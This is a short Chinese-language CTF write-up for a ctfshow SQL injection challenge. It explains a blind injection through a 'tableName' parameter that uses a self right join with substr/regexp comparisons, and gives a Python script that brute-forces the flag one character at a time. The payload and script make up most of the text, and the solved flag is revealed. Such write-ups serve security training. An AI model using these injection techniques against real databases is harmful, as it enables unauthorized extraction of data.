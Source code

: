 ### 思路

flag 的值第一位是 c ，查询结果过为 43

```
tableName=ctfshow_user as a right join ctfshow_user as b on (substr(b.pass,1,1)regexp(char(99)))
```

<img src="图片\Snipaste_2023-01-25_11-30-08.png" alt="Snipaste_2023-01-25_11-30-08" style="zoom:67%;" />

脚本， right join ctfshow_user 是 join 自己  https://blog.csdn.net/i1sfish/article/details/112647421

```python
# @Author:Y4tacker
import requests
# ctfshow{4564e82f-cbd3-446f-bf1e-35d6d6919aa3}
url = "http://b9e1166d-287f-484a-acbc-9f8c6152d20f.challenge.ctf.show/select-waf.php"

flag = 'ctfshow'
for i in range(45):
    if i <= 7:
        continue
    for  j in range(127):
        data = {
            "tableName": f"ctfshow_user as a right join ctfshow_user as b on (substr(b.pass,{i},1)regexp(char({j})))"  # substr(b.pass,8,1) 是 {
        }
        r = requests.post(url,data=data)
        if r.text.find("$user_count = 43;")>0:
            if chr(j) != ".":
                flag += chr(j)
                print(flag.lower())
                if chr(j) == "}":
                    exit(0)
                break
```
